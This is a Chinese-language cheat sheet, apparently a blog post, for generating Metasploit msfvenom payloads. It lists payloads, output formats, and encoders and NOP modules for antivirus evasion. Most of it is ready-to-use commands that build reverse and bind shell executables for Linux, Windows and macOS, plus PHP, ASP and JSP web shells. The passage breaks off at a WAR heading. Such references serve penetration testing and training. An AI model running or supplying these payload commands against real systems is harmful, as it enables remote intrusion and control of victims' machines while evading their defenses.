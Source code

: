 查看支持的payload列表：
{{< highlight shell >}}
msfvenom -l payloads
{{< /highlight >}}
查看支持的输出文件类型：
{{< highlight shell >}}
msfvenom --help-formats
{{< /highlight >}}
查看支持的编码方式：(为了达到免杀的效果)
{{< highlight shell >}}
msfvenom -l encoders
{{< /highlight >}}
查看支持的空字段模块：(为了达到免杀的效果)
{{< highlight shell >}}
msfvenom -l nops
{{< /highlight >}}
### 基础payload

命令格式
{{< highlight shell >}}
msfvenom -p <payload> <payload options> -f <format> -o <path>
{{< /highlight >}}
Linux

反向连接：
{{< highlight shell >}}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
{{< /highlight >}}
正向连接：
{{< highlight shell >}}
msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=<Target IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
{{< /highlight >}}
Windows
{{< highlight shell >}}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
{{< /highlight >}}

Mac
{{< highlight shell >}}
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
{{< /highlight >}}
Web Payloads

PHP
{{< highlight shell >}}
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
{{< /highlight >}}
ASP
{{< highlight shell >}}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
{{< /highlight >}}
JSP
{{< highlight shell >}}
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
{{< /highlight >}}
WAR
{{< highlight shell >}}